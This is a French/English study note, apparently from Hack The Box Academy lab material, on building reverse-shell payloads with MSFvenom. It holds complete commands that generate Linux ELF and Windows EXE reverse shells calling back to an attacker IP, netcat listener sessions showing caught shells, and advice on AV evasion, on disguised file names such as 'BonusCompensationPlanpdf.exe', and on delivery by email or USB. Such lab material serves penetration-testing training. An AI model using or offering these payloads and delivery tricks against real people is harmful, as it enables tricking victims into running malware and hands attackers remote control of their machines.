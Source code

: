 # Crafting Payloads with MSFvenom

***

Une méthode consiste à utiliser **MSFvenom**, un outil qui permet de créer des payloads personnalisés que l'on peut envoyer par des moyens comme un email ou des techniques d'ingénierie sociale, incitant ainsi l'utilisateur à exécuter le fichier.

{% hint style="info" %}
**MSFvenom** offre aussi la possibilité de chiffrer et d'encoder les payloads pour contourner les antivirus et autres systèmes de détection de signature malveillante. Cela permet de livrer des payloads de manière plus discrète et efficace.
{% endhint %}

***

### <mark style="color:red;">Practicing with MSFvenom</mark>

In Pwnbox or any host with MSFvenom installed, we can issue the command `msfvenom -l payloads` to list all the available payloads.&#x20;

<mark style="color:green;">**List Payloads**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ msfvenom -l payloads
```
{% endcode %}

***

### <mark style="color:red;">Staged vs. Stageless Payloads</mark>

#### <mark style="color:green;">Payloads avec étapes (Staged)</mark>

* Les **payloads staged** fonctionnent en deux étapes : un **stager** (petit code initial) puis le **stage** (le reste du payload téléchargé/exécuté).
* Le stager établit la connexion initiale vers l’attaquant (par ex. pour `linux/x86/shell/reverse_tcp`), puis récupère et lance le stage qui ouvre la reverse shell.
* Avantage : le stager est petit — utile sur des systèmes avec peu de mémoire ou contraintes d’espace.
* Inconvénient : dépendance au réseau et à la stabilité — si le téléchargement échoue ou la mémoire manque, l’attaque peut devenir instable.

#### <mark style="color:green;">Payloads sans étapes (Stageless)</mark>

* Les **payloads stageless** envoient **tout le code d’un coup** et s’exécutent immédiatement sur la cible — pas de stager ni de téléchargement supplémentaire.
* Avantages : plus **stables** sur des réseaux lents/latents (pas de dépendance à plusieurs étapes) et **moins de trafic réseau** observable, ce qui peut aider à l’évasion.
* Inconvénients : le payload complet peut être plus volumineux et nécessiter plus de mémoire pendant l’exécution.
* Choix pratique : dans des environnements à faible bande passante ou à latence élevée, un **stageless** est souvent préférable ; dans d’autres cas le staged peut réduire la taille initiale envoyée.

#### <mark style="color:green;">Comment identifier un payload staged ou stageless ?</mark>

Dans Metasploit, le nom du payload peut souvent indiquer s'il est staged ou stageless. Par exemple :

* `windows/meterpreter/reverse_tcp` est un **payload staged**. On peut le voir car le nom est divisé en plusieurs parties (ou "étapes") par des barres obliques (`/`).
* `windows/meterpreter_reverse_tcp` est un **payload stageless**, car tout est réuni en une seule partie.

En résumé :

* **Staged** : envoie un petit morceau qui télécharge le reste plus tard.
* **Stageless** : envoie tout d'un coup.

Les **payloads stageless** sont plus simples et peuvent être utiles quand les conditions réseau sont mauvaises, tandis que les **payloads staged** sont parfois préférables pour contourner des restrictions sur la taille des fichiers ou la mémoire.

***

### <mark style="color:red;">Building A Stageless Payload</mark>

<mark style="color:green;">**Build It**</mark>

{% code fullWidth="true" %}
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
{% endcode %}

<mark style="color:green;">**Call MSFvenom**</mark>

```shell-session
msfvenom
```

Defines the tool used to make the payload.

<mark style="color:green;">**Creating a Payload**</mark>

```shell-session
-p 
```

This `option` indicates that msfvenom is creating a payload.

<mark style="color:green;">**Choosing the Payload based on Architecture**</mark>

```shell-session
linux/x64/shell_reverse_tcp 
```

Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell (`shell_reverse_tcp`).

<mark style="color:green;">**Address To Connect Back To**</mark>

```shell-session
LHOST=10.10.14.113 LPORT=443 
```

When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).

<mark style="color:green;">**Format To Generate Payload In**</mark>

```shell-session
-f elf 
```

The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).

**Output**

```shell-session
> createbackup.elf
```

Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

***

### <mark style="color:red;">Executing a Stageless Payload</mark>

* Email message with the file attached.
* Download link on a website.
* Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
* Via flash drive as part of an onsite penetration test.

Once the file is on that system, it will also need to be executed.

**Ubuntu Payload**

![image](https://academy.hackthebox.com/storage/modules/115/ubuntupayload.png)

We would have a listener ready to catch the connection on the attack box side upon successful execution.

<mark style="color:green;">**NC Connection**</mark>

```bash
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 443
```

When the file is executed, we see that we have caught a shell.

<mark style="color:green;">**Connection Established**</mark>

```bash
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
--------------------------------
```

This same concept can be used to create payloads for various platforms, including Windows.

***

### <mark style="color:red;">Building a simple Stageless Payload for a Windows system</mark>

<mark style="color:green;">**Windows Payload**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
{% endcode %}

The command syntax can be broken down in the same way we did above. The only differences, of course, are the `platform` (`Windows`) and format (`.exe`) of the payload.

***

### <mark style="color:red;">Executing a Simple Stageless Payload On a Windows System</mark>

This is another situation where we need to be creative in getting this payload delivered to a target system. Without any `encoding` or `encryption`, the payload in this form would almost certainly be detected by Windows Defender AV.

![image](https://academy.hackthebox.com/storage/modules/115/winpayload.png)

If the AV was disabled all the user would need to do is double click on the file to execute and we would have a shell session.

```bash
mrroboteLiot@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.144.5 49679
```
